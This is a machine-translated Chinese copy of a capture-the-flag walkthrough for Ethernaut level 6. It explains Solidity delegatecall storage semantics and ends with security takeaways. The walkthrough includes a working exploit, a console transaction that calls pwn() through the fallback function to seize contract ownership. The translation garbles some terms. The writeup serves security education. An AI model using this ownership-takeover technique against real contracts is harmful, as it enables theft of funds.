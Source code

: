# Ethernaut Lvl 6 委托演练:如何滥用微妙的委托调用

> 原文：<https://medium.com/coinmonks/ethernaut-lvl-6-walkthrough-how-to-abuse-the-delicate-delegatecall-466b26c429e4?source=collection_archive---------2----------------------->

## 这是一个围绕[齐柏林](https://openzeppelin.org/)团队的[智能合约安全拼图](https://ethernaut.zeppelin.solutions/)的[深度系列](/@nicolezhu)。我会给你直接的资源和你需要的关键概念来 100%自己解决这些难题。

这个等级要求你声明你所得到的实例的所有权。

# `Delegatecall`

> 委托调用是一个特殊的低级函数调用，旨在**从另一个(通常是库)契约**中调用函数。

delegatecall()的优点是，您可以保留当前调用契约的上下文。这个上下文包括它的`storage`和它的`msg.sender`、`msg.value`属性。

> **关于存储的快速说明**:以太坊在存储“槽”中存储数据，这些槽是 32 字节大小的槽。每次你保存一个变量到存储器，它会自动占用当前槽或序列中下一个槽的剩余空间。

在下图中，契约 A 对契约 B 的`saveX()`函数进行委托调用，该函数**最终改变了契约 A 的存储**。让我们一步一步来:

![](img/3b8f87a24f20b921a43b8e20d3c1b7e0.png)

首先，契约 A 通过 delegatecall 调用`saveX`函数。**委托调用** **用调用契约**的存储覆盖契约 B 的存储，又名`Storage A`。

接下来，执行`saveX`函数。请注意，最初，合同 B 将`bar`存储到存储`slot 0`。因此，当这个函数现在引用变量`bar`时，它再次查看`slot 0`。

然而，`slot 0`现在是指向`foo`的引用指针。因此`foo`被设置为`x`。`bar`仍在范围之外，未被触及。

> **tl:dr** :当契约 A 对契约 B 进行委托调用时，它允许契约 B 自由地对其存储 A 进行变异。

显然，当开发人员在**不安全的存储上下文**中使用 delegatecall()时，或者从恶意的库继承时，就会出现安全风险(稍后将详细介绍)。

> **From**[**Solidity docs**](https://solidity.readthedocs.io/en/v0.4.24/units-and-global-variables.html?highlight=delegatecall):如果通过一个低级 **delegatecall** 访问存储变量，那么两个契约的存储布局必须对齐，这样被调用的契约才能正确地通过名字访问调用契约的存储变量。当然，如果存储指针作为函数参数传递，就不是这种情况了，就像高级库的情况一样。

现在，利用您对 delegatecall()的深入理解来获得该级别合同的所有权！

![](img/c7b341433879e88b28c5f57ab3f5ad4a.png)

# 详细演练

1.  通知`Delegation.sol`对图书馆合同`Delegate.sol`做出`delegatecall`
2.  注意`Delegate.sol`有一个名为 pwn()的公共函数，它将`owner`变量的所有权改变为调用该函数的人！

```
contract Delegate {
    address public owner;   // Occupies slot 0
    ... function pwn() public {
        owner = msg.sender; // Save msg.sender to slot 0
    }
}
```

3.注意您的委托契约的`slot 0`也存储了`owner`，这正是您想要更改的变量！此外，如果您设法调用`Delegation.sol`中的 fallback 函数来调用`pwn()`，您将成为调用契约的所有者。

```
function() public {
    if(delegate.delegatecall(msg.data)) {
        this; 
    }
}
```

4.请记住，在以太坊中，您可以通过在事务中发送`data`来调用公共函数。格式如下:

```
contractInstance.call(**bytes4**(**sha3**("functionName(inputType)"))
```

5.使用 Remix IDE 或控制台，调用`Delegation.sol`的回退功能:

```
// I did so in the console, having already computed
// the bytes4(sha3("pwn()"))await sendTransaction({
  from: "0x1733d5adaccbe8057dba822ea74806361d181654",
  to: "0xe3895c413b0035512c029878d1ce4d8702d02320",
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});
```

6.`await contract.owner()`显示你现在是主人了！

**提示**:您可以通过 Remix 调试器(在 Javascript VM 模式下)来查看存储上下文是如何变化的！你可以在 Remix 调试器的`storage fully loaded`下拉菜单中找到存储槽。

> 恭喜你，你现在已经再现了[$ 3000 万奇偶校验攻击背后的核心漏洞](https://blog.zeppelin.solutions/on-the-parity-wallet-multisig-hack-405a8c12e8f7)！

# 关键安全要点

*   使用更高级的`call()`函数从库继承，特别是当你 I)不需要改变契约存储和 ii)不关心气体控制的时候。
*   当从一个打算改变你的契约的存储的库继承时，确保你的存储槽与库的存储槽对齐，以避免这些边缘情况。
*   对调用 delegatecalls 的函数进行身份验证和条件检查。
*   [出于安全考虑，阅读坚固性文件](https://solidity.readthedocs.io/en/v0.4.24/security-considerations.html)。

# 更多级别

[](/coinmonks/ethernaut-lvl-5-walkthrough-how-to-abuse-arithmetic-underflows-and-overflows-2c614fa86b74) [## Ethernaut Lvl 5 令牌演练:如何滥用算术下溢和溢出

### 这是一个围绕齐柏林飞艇团队智能合同安全难题的深入系列。我会给你直接的资源…

medium.com](/coinmonks/ethernaut-lvl-5-walkthrough-how-to-abuse-arithmetic-underflows-and-overflows-2c614fa86b74) [](/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57) [## Ethernaut Lvl 7 力量演练-如何自毁和创建一个 Ether 黑洞

### 这是一个围绕齐柏林飞艇团队智能合同安全难题的深入系列。我们学习关键的坚固性概念来…

medium.com](/coinmonks/ethernaut-lvl-7-walkthrough-how-to-selfdestruct-and-create-an-ether-blackhole-eb5bb72d2c57) 

> [直接在您的收件箱中获取最佳软件交易](https://coincodecap.com/?utm_source=coinmonks)

[![](img/7c0b3dfdcbfea594cc0ae7d4f9bf6fcb.png)](https://coincodecap.com/?utm_source=coinmonks)